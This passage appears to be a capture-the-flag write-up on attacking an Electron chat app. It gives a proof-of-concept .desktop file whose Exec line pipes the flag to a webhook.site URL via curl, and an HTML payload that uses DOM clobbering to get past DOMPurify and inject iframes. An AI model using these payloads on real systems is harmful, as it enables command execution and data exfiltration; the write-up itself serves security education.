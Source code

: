 ```js
  console.log('downloader');
  try {
    if (!fs.existsSync(downloadDir)) {
      fs.mkdirSync(downloadDir);
    }
    item.setSavePath(downloadDir + item.getFilename().replace(/\.\./g, ""));
  } catch (e) {
    console.log(e);
  }
};
```

In xfce desktop we can run commands by opening .desktop files, which means opening `shell.openExternal('file:///pwn.desktop')` gives us the flag.

POC: pwn.desktop
```js
[Desktop Entry]
Exec=sh -c '/app/readflag | curl "https://webhook.site/ea4a966b-3574-4d6a-a8d8-7ca2ff02" -d @-'
Type=Application
```
There is also download handler, so we need to somehow save pwn.desktop file in the victim's system and navigate to that path in electron.

### DOM Clobber to Iframe Injection
We can notice that if isDev is defined all links are converted to embeds, the messages we add to the chat is sanitized with DOMPurifier, DOMPurifier allows id attribute so using id attribute we can clobber `window.isDev`.


```js
  if (window.isDev) {
    // make sure the a tags have a valid href attribute
    let links = Array.from(p.getElementsByTagName("a")).filter(
      (link) => link.href && /^(https?|file|mailto):$/.test(link.protocol)
    );
    links.shift(); // remove "Print This Message" link

    if (links.length > 0) {
      let link = new URL(links.pop());

      if (link.hostname.endsWith(".youtube.com"))
        link = "https://www.youtube.com/embed/" + link.searchParams.get("v");

      let iframe = document.createElement("iframe");
      iframe.sandbox = "allow-scripts allow-same-origin"; // safety first
      iframe.src = link;
      iframe.classList.add("preview", "mt-3");

      p.appendChild(iframe);
    }
  }

```
POC: Below messages inserts iframe with href as url in the chat.
```html
<input id=isDev >
<a href="http://ctf.s1r1us.ninja">hi</a>
```
